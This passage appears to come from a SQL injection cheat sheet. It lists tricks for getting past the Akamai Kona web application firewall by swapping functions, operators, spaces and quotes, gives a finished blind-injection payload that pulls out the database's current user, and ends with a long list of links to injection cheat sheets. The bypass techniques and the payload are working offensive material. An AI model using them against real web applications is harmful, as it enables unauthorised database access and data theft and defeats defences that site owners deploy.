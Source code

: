 Akamai Kona Bypass

MID instead of SUBSTRINGLIKE instead of =/**/ instead of a spaceCURRENT_USER instead of CURRENT_USER() " instead of '

Final example:

444/**/OR/**/MID(CURRENT_USER,1,1)/**/LIKE/**/"p"/**/#

Blogs

http://pentestmonkey.net/blog/mssql-sql-injection-cheat-sheet/http://isc.sans.edu/diary.html?storyid=9397http://ferruh.mavituna.com/sql-injection-cheatsheet-oku/http://xd-blog.com.ar/descargas/manuales/bugs/full-mssql-injection-pwnage.htmlhttp://securityoverride.com/articles.php?article_id=1&article=The_Complete_Guide_to_SQL_Injectionshttp://websec.wordpress.com/2010/03/19/exploiting-hard-filtered-sql-injections/http://sqlzoo.net/hack/http://www.sqlteam.com/article/sql-server-versionshttp://www.krazl.com/blog/?p=3http://www.owasp.org/index.php/Testing_for_MS_Accesshttp://web.archive.org/web/20101112061524/http://seclists.org/pen-test/2003/May/0074.htmlhttp://web.archive.org/web/20080822123152/http://www.webapptest.org/ms-access-sql-injection-cheat-sheet-EN.htmlhttp://www.youtube.com/watch?v=WkHkryIoLD0http://layerone.info/archives/2009/Joe%20McCray%20-%20Advanced%20SQL%20Injection%20-%20L1%202009.pdfhttp://vimeo.com/3418947http://sla.ckers.org/forum/read.php?24,33903http://websec.files.wordpress.com/2010/11/sqli2.pdfhttp://old.justinshattuck.com/2007/01/18/mysql-injection-cheat-sheet/http://ha.ckers.org/sqlinjection/http://lab.mediaservice.net/notes_more.php?id=MSSQL
